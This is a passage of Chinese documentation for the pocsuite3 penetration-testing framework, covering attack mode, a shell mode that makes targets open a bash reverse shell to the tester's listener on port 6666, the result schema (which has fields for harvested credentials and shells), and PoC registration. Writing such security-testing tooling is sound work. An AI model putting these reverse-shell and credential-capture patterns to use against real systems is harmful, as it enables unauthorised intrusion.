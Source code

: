 和验证模式一样,攻击成功后需要把攻击得到结果赋值给 result 变量

**注意:如果该 PoC 没有攻击模式,可以在 \_attack()函数下加入一句 return self.\_verify() 这样你就无需再写 \_attack 函数了。**

6. 编写shell模式 [**new**]

pocsuite3 在 shell 模式 会默认监听`6666`端口， 编写对应的攻击代码，让目标执行反向连接 运行pocsuite3 系统IP的 `6666`端口即可得到一个shell
```python
def _shell(self):
    cmd = REVERSE_PAYLOAD.BASH.format(get_listener_ip(), get_listener_port())
    # 攻击代码 execute cmd
```

shell模式下，只能运行单个PoC脚本，控制台会进入shell交互模式执行命令及输出

7. 结果返回

不管是验证模式或者攻击模式，返回结果 result 中的 key 值必须按照下面的规范来写，result 各字段意义请参见[《PoC 结果返回规范》](#resultstandard)

```
'Result':{
   'DBInfo' :   {'Username': 'xxx', 'Password': 'xxx', 'Salt': 'xxx' , 'Uid':'xxx' , 'Groupid':'xxx'},
   'ShellInfo': {'URL': 'xxx', 'Content': 'xxx' },
   'FileInfo':  {'Filename':'xxx','Content':'xxx'},
   'XSSInfo':   {'URL':'xxx','Payload':'xxx'},
   'AdminInfo': {'Uid':'xxx' , 'Username':'xxx' , 'Password':'xxx' }
   'Database':  {'Hostname':'xxx', 'Username':'xxx',  'Password':'xxx', 'DBname':'xxx'},
   'VerifyInfo':{'URL': 'xxx' , 'Postdata':'xxx' , 'Path':'xxx'}
   'SiteAttr':  {'Process':'xxx'}
   'Stdout': 'result output string'
}
```

output 为 Pocsuite 标准输出API，如果要输出调用成功信息则使用 `output.success(result)`,如果要输出调用失败则 `output.fail()`,系统自动捕获异常，不需要PoC里处理捕获,如果PoC里使用try...except 来捕获异常，可通过`output.error('Error Message')`来传递异常内容,建议直接使用模板中的parse_output通用结果处理函数对_verify和_attack结果进行处理。
```
def _verify(self, verify=True):
    result = {}
    ...

    return self.parse_output(result)

def parse_output(self, result):
    output = Output(self)
    if result:
        output.success(result)
    else:
        output.fail()
    return output
```

8. 注册PoC实现类

在类的外部调用register_poc()方法注册PoC类
```
class DemoPOC(POCBase):
    #POC内部代码

#注册 DemoPOC 类
register_poc(DemoPOC)
```
##### 可自定义参数的POC<div id="plugin_div"></div>
如果你需要编写一个可以交互参数的poc文件(例如有的poc脚本需要填写登录信息，或者任意命令执行时执行任意命令)，那么可以在poc文件中声明一个`_options`方法。一个简单的例子如下
